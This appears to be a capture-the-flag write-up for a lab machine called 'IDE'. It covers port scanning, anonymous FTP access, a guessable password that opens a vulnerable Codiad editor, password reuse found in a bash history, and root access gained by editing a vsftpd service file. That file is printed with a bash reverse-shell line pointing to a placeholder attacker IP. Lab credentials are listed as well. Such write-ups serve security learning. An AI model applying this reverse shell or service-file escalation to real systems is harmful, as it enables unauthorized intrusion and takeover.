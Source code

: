 # IDE
### Users
```
john
drac
```
### Credentials
```
Codiad Web app:
john:password

System:
drac:Th3dRaCULa1sR3aL
/home/drac/.bash_history:mysql -u drac -p 'Th3dRaCULa1sR3aL' --> From .bash_history
- Credentials reused for system user
```
## Recon
### Nmap Scan
```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.105.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
**Quick Look:**
FTP:
* Anonymous login allowed

HTTP:
* Apache default page

HTTP 62337:
* Codiad 2.8.4
### Web Recon
**Port 62337**
Service running on port 62337 was vulnerable to an Authenticated Remote Code Execution vulnerability which I was able 
to leverage in my favour to get a reverse shell into the machine.
https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit --> More Here

## Foothold / Privilege Escalation
The server had an FTP service running and I was able to login using anonymous credentials.
Inside the developers tried to hide a file under the “…” directory and called it “-”. So when I downloaded and changed the name to message, it read a message from the admins about the credentials for the user john. It stated the password was reset to the default password which was very easily guessable since it was “password”. The credentials in question were for the service running on port 62337 which was Codiad v2.8.4, this version was vulnerable to an Authenticated Remote Command Execution vulnerability.
The exploit is related to how Codiad processes file uploads and the lack of proper input validation. The core of the issue is the unsafe inclusion of user-provided files.
I used the Codiad RCE exploit to get an initial foothold in the machine.
### Privilege Escalation
Looking through the machine I found another user drac, and in his home directory he did not clean up his .bash_history file so I was able to read through it and found a MySQL database password with his username.
I tested for credential reusage and was successful, I now have a real user compromised.
**Privilege Escalation via .service files**\
As the user drac I had sudo permissions on the vsftpd service, more importantly I could restart it with sudo.
So with this information I could try and change the vsftpd.service file to execute a reverse shell when I restart it.
```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<LISTENER_PORT 0>&1'
ExecReload=/bin/kill -HUP $MAINPD
ExecStartPre=-/bin/mkdir -p /var/run/vsftp/empty

[Install]
WantedBy=multi-user.target
```
If you restart it now you will get an error, but just execute what the error tells you and restart vsftpd again but don't forget to setup your listener otherwise the shell won't work and you get root.
## Notes
**Privilege Escalation via editing .service files**\
Using .service files an attacker if they have permissions, modify files and execute unwanted commands. Like in this case I modified the vsftpd.service file in a way that when the ftp service starts it will give my current user sudo permissions for the whole system. So I could just sudo su and get root.
